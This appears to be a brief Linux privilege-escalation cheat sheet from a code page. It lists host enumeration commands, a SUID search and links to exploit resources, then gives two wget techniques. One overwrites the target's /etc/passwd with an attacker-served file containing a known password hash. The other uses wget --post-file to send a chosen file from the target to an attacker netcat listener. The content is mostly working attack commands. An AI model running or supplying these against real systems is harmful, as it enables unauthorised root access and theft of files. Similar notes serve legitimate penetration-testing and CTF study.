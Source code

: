 # Linux Privesc

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```






find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null


https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

